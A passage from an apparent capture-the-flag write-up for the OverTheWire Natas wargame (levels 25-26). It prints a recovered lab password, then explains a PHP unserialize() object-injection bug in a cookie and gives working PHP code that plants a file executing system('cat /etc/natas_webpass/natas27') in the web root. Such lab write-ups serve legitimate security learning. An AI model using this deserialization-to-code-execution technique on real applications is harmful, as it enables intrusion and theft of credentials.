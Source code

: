 After changing our user agent and accessing the log file, we get our password in the HTML source.

```
[29.12.2023 04::25:03] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
```

# 26

```
Username: natas26
URL:      http://natas26.natas.labs.overthewire.org
```

According to the source code, the coordinates are stored in the `drawing` cookie. If it exists, then it gets interpreted with this line:

```php
$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

Apparantly the `unserialize()` function is very vulnurable, as it allows us to run arbritary objects. Luckily the source code includes a class we can use called `Logger`.

> ```php
> class Logger{
>     private $logFile;
>     private $initMsg;
>     private $exitMsg;
> 
>     function __construct($file){
>         // initialise variables
>         $this->initMsg="#--session started--#\n";
>         $this->exitMsg="#--session end--#\n";
>         $this->logFile = "/tmp/natas26_" . $file . ".log";
>         ... 
> ```

What we can do is make an object with this `Logger` class, change the `exitMsg` to PHP code that will return the password (same as last problem), and change `logFIle` to an easily accessible path.

```php
<?php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/natas27Pass.php";
    }
}
$log = new Logger();
print base64_encode(serialize($log));
?>
```
